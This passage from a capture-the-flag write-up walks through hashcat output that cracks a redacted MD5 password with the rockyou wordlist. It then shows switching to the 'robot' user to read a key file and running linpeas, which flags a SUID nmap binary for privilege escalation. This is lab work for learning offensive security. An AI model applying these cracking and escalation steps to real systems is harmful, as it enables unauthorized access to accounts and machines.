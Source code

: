 ```bash

REDACTED:REDACTED
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: REDACTED
Time.Started.....: Fri May 21 14:49:39 2021 (1 sec)
Time.Estimated...: Fri May 21 14:49:40 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   437.2 kH/s (1.46ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 39936/14344385 (0.28%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: promo2007 -> loserface1
```

- Switching to **robot** user using the cracked password & obtaining the key:

```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ whoami
robot
robot@linux:~$ cat key-2-of-3.txt 
REDACTED
```

---

## Privilege Escalation

- Robot user doesn't have sudo rights:

```bash
robot@linux:/$ sudo -l
[sudo] password for robot: 
Sorry, user robot may not run sudo on linux.
```

### Running linpeas

- Linpeas gave away the Privilege Escalation vector easily: `nmap`

```bash
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
strace Not Found
.
.
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
.
.
```
